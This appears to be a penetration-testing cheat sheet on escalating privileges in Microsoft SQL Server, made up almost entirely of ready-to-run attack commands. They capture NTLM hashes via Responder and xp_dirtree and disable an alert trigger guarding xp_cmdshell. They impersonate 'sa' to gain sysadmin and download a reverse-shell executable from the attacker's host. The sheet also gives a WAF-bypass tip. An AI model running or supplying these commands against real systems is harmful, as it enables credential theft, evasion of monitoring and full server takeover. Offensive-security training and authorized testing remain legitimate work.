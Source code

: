 ```yaml
---
title: "MSSQL Privilege Escalation"
date: 2024-6-27
tags: ["Hash Cracking", "Database Dumping", "Privilege Escalation In Databases", "Ntlm", "Mssql", "Database", "Windows", "RCE", "Enum"]
---
```


### Enum

```console
# Import Module
. .\PowerUpSQL.ps1
```

```console
# Audit
Invoke-SQLAudit -Instance <TARGET> -Username '<USER>' -Password '<PASSWORD>' -Verbose
```

```console
# Execute Query
Get-SQLQuery -Instance <TARGET> -Username '<USER>' -Password '<PASSWORD>' -Query "<QUERY>" -Verbose
```

<small>*Ref: [PowerUpSQL.ps1](https://github.com/NetSPI/PowerUpSQL/blob/master/PowerUpSQL.ps1)*</small>

### Abuse #1: Steal NTLM hash

```console
# In our local Linux machine
sudo responder -I tun0
```

{{< tab set1 tab1 >}}Method 1{{< /tab >}}
{{< tab set1 tab2 >}}Method 2{{< /tab >}}
{{< tab set1 tab3 >}}Method 3{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
xp_dirtree '\\<LOCAL_IP>\any\thing';
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

```console
use master; exec xp_dirtree '\\<LOCAL_IP>\any\thing';
```

{{< /tabcontent >}}
{{< tabcontent set1 tab3 >}}

```console
load_file('\\<LOCAL_IP>\any\thing');
```

{{< /tabcontent >}}

### Abuse #2: Run xp_cmdshell

```console
# Check any policy blocking xp_cmdshell
select name from sys.server_triggers;
```

```console
# Disable trigger if any
disable trigger ALERT_xp_cmdshell on all server;
```

```console
# Enable xp_cmdshell
enable_xp_cmdshell;
```

```console
# RCE
xp_cmdshell whoami
```

### Abuse #3: Impersonate sa to run xp_cmdshell

```console
# Add user to sysadmin
execute as login = 'sa'; exec sp_addsrvrolemember '<USER>','sysadmin'
```

```console
# Check
SELECT is_srvrolemember('sysadmin');
```

```console
execute as login = 'sa'; exec sp_configure 'show advanced options', 1;
```

```console
execute as login = 'sa'; reconfigure;
```

```console
execute as login = 'sa'; exec sp_configure 'xp_cmdshell', 1;
```

```console
execute as login = 'sa'; reconfigure;
```

```console
execute as login = 'sa'; EXEC master..xp_cmdshell 'powershell.exe -ep bypass curl <LOCAL_IP>/rev.exe -o C:\ProgramData\rev.exe'
```

<small>*Note: try xp_cmDshElL to bypass WAF*</small>

### Abuse #4: Run External Script

```console
EXEC sp_execute_external_script @language =N'Python', @script = N'import os; os.system("whoami");';
```

